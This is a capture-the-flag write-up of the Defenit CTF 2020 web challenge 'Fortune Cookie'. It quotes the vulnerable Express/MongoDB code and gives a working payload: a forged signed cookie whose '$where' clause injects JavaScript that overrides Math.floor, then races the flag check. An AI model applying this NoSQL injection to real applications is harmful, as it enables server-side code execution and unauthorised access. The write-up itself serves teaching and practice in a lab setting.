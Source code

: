 # Fortune Cookie
*Defenit CTF 2020 - Web ???<br>
*Writeup by Payload as TryToEatSushi*


## Problem

Here's a test of luck!
What's your fortune today?

## Look up

```javascript
app.get('/flag', (req, res) => {

    let { favoriteNumber } = req.query;
    favoriteNumber = ~~favoriteNumber;

    if (!favoriteNumber) {
        res.send('Please Input your <a href="?favoriteNumber=1337">favorite number</a> ?삃');
    } else {

        const client = new MongoClient(MONGO_URL, { useNewUrlParser: true });

        client.connect(function (err) {

            if (err) throw err;

            const db = client.db('fortuneCookie');
            const collection = db.collection('posts');

            collection.findOne({ $where: `Math.floor(Math.random() * 0xdeaaaadbeef) === ${favoriteNumber}` })
                .then(result => {
                    if (favoriteNumber > 0x1337 && result) res.end(FLAG);
                    else res.end('Number not matches. Next chance, please!')
                });

            client.close();

        });
    }
})
```

To get flag, we have to pass lottery based on Math.floor. If I have a huge luck, I could pass at once, but I'm not.

Since we know the secret value for signing cookie, we can make every structure in `req.signedCookies`.

```javascript
app.get('/posts', (req, res) => {

    let client = new MongoClient(MONGO_URL, { useNewUrlParser: true });
    let author = req.signedCookies.user;

    if (typeof author === 'string') {
        author = { author };
    }

    client.connect(function (err) {

        if (err) throw err;

        const db = client.db('fortuneCookie');
        const collection = db.collection('posts');

        collection
            .find(author)
            .toArray()
            .then((posts) => {
                res.render('posts', { posts })
            }
            );

        client.close();

    });

});
```

One more intersting point is `req.signedCookies.user` is given as object in `collection.find()`. When we give `$where` key for `user`, then javascript code will be evaluated.


## Race!

After `/posts` has a vulnerability, further steps are easy. Build a javascript code that overrided `Math.floor`, and make a race condition. It's all

## Exploitation

1. Make cookie that includes a javascript code overwrites `Math.floor` in `$where`
2. Pray for race condition


## Payload

To make cookie,
```javascript
const express = require("express");
const cookieParser = require("cookie-parser");

const app = express();

app.use(cookieParser('🐈' + '🐇'));
app.use(express.urlencoded());

app.get('/test', (req, res) => {
        res.cookie('user', {author: 'maratang', $where: 'Math.floor = function(x) { return 5000; }; return 1 == 2;'}, {signed: true});
        res.send('');
});
```



**`Defenit{c0n9r47ula7i0n5_0n_y0u2_9o0d_f02tun3_haHa}`**
